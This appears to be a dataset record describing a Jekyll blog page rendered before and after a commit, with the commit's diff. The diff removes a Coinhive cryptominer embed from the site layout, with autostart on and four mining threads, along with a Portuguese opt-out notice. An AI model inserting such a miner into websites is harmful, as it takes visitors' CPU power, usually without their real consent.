

Before and after one commit to gkal19/blog, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 2899 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; after the commit the page ends 3665 px from its top, so only the background shows below that.

Commit message:
Update default.html

```diff
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -36,22 +36,6 @@
 
     {{ content }}
 
-    <script src="https://coinhive.com/lib/miner.min.js" async></script>
-    <div style="width:800px; margin:0 auto;" class="coinhive-miner"
-	style="width: 400; height: 100px"
-	data-key="Re1kXV3CyVvPrPu4zbFhryuYQpBx6mFO"
-	data-autostart="true"
-	data-whitelabel="false"
-	data-background="#ffffff"
-	data-text="#000000"
-	data-action="#00ff00"
-	data-graph="#555555"
-	data-threads="4"
-	data-throttle="0.1"
-	data-start="Start Now!">
-	<em>Por favor, desative o AdBlock!</em></div>
-
-	<p style="width:800px; margin:0 auto;">O uso do coinhive no site <strong>pode ser desativado por você, usuário quando bem entender</strong>. O uso do minerador irá funcionar apenas no site e nenhum outro lugar fora dele.</p>
 
     <footer class="site-footer clearfix">
       <section class="copyright">
```
